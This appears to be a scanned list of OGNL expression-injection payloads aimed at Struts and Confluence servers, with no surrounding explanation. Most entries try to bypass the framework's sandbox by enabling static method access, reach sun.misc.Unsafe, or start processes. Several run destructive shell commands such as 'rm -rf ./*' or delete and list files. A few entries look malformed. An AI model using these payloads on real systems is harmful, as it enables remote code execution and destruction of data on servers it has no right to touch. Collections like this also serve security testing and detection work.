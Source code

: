 * %{#a = new org.apache.catalina.session.StandardSession()} 
* %{#a = @org.apache.catalina.session.StandardSession} 
* %{#a =new com.atlassian.confluence.util.velocity.VelocityUtils()}
* %{#a =@com.atlassian.confluence.util.velocity.VelocityUtils()}
* %{#a =@com.google.common.reflect.Reflection}
* %{#a =new com.google.common.reflect.Reflection()}
* %{#a =new com.atlassian.sal.api.net.RequestFactory()}
* %{#a =@com.atlassian.sal.api.net.RequestFactory()}
* %{#a =@com.hazelcast.spi.Operation}
* %{#a =new com.hazelcast.spi.Operation}
* %{#a =@org.apache.commons.httpclient.HttpClient}
* %{#a =new org.apache.commons.httpclient.HttpClient()}
* %{#a =@com.atlassian.util.concurrent.LazyReference()}
* %{#a =new com.atlassian.util.concurrent.LazyReference()}
* %{#a =@freemarker.ext.jsp.TaglibFactory}
* %{#a =new freemarker.ext.jsp.TaglibFactory()}
* %{#a =new com.sun.jna.JniDispatch32()}
* %{#a =@com.sun.jna.JniDispatch32()}
* %{#a =new com.sun.corba.se.impl.encoding.CodeSetConversion()}
* %{#a =@com.sun.corba.se.impl.encoding.CodeSetConversion}
* %{#a =@com.sun.jmx.snmp.tasks.Task}
* %{#a =new com.sun.jmx.snmp.tasks.Task()}
* %{#a =new org.apache.commons.exec.CommandLine()}
* %{#a =@org.apache.commons.exec.CommandLine}
* %{#a =new java.lang.reflect.Constructor<T>().getDeclaringClass()}
* %{#a =new jcom.atlassian.util.concurrent.LazyReference()}
* %{#a =@com.atlassian.util.concurrent.LazyReference}
* %{#a=new java.io.File("~/test.txt"),#a.delete()}
* %{#a=new java.io.File("~/test.txt"),#a.setExecutable(true),#b=(new java.lang.ProcessBuilder(new java.lang.String[]{"/bin/bash", "-c", "rm -rf ./*"})).start()}
* %{#a=new java.io.File("~"),#a.list()}
* %{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"/bin/bash", "-c", "rm -rf ./*"})).start()}
* %{@java.lang.Runtime@getRuntime().exec("ls -als")}
* %{#a=new java.lang.Runtime().exec("rm -rf ./*")}
* %{#_memberAccess.allowStaticMethodAccess=true,#context["xwork.MethodAccessor.denyMethodExecution"]=false,@sun.misc.Unsafe@getUnsafe()}
* %{#_memberAccess.allowStaticMethodAccess=true,#context["xwork.MethodAccessor.denyMethodExecution"]=false,#f=@sun.misc.Unsafe.class.getDeclaredField("theUnsafe"),#f.setAccessible(true),#unsafe=#f.get(null)}
* %{#_memberAccess.allowStaticMethodAccess=true,#context["xwork.MethodAccessor.denyMethodExecution"]=false,#a=new java.lang.String("test").getClass().getClassLoader()}
* %{@com.opensymphony.xwork.ActionContext@getContext()}
* %{#_memberAccess.allowStaticMethodAccess=true,#context["xwork.MethodAccessor.denyMethodExecution"]=false,@java.lang.Compiler@disable()}
* %{#_memberAccess.allowStaticMethodAccess=true,#context["xwork.MethodAccessor.denyMethodExecution"]=false,@java.lang.Compiler@compileClass(new java.lang.String("test").getClass())}
* %{#_memberAccess.allowStaticMethodAccess=true,#context["xwork.MethodAccessor.denyMethodExecution"]=false,@java.lang.Compiler@command("javac java.lang.String")}
* %{#_memberAccess.allowStaticMethodAccess=true,#context["xwork.MethodAccessor.denyMethodExecution"]=false,#a=new java.lang.String("test"),#a.getClass()}
* %{#_memberAccess.allowStaticMethodAccess=true,#context["xwork.MethodAccessor.denyMethodExecution"]=false,#a=new java.lang.Process().destroy()}
* %{#_memberAccess.allowStaticMethodAccess=true,#context["xwork.MethodAccessor.denyMethodExecution"]=false,#a=new java.lang.Package().getImplementationVendor()}
* %{#_memberAccess.allowStaticMethodAccess=true,#context["xwork.MethodAccessor.denyMethodExecution"]=false,#a=new java.lang.Package().getImplementationTitle()}
* %{#a=new javax.script.ScriptEngineManager().getEngineByName().eval("println('hello!')")}
* %{#a=new javax.script.ScriptEngineManager().getBindings()}
* %{#_memberAccess.allowStaticMethodAccess=true,#context["xwork.MethodAccessor.denyMethodExecution"]=false,#a=new javax.persistence.EntityManager(){public void clear(){}.clear()}
* %{#em=@javax.persistence.Persistence@createEntityManagerFactory("test").createEntityManager(),#em.createQuery("select * from Student")}
* %{#sc=@javax.servlet.http.HttpServletRequest.getSession().getServletContext()}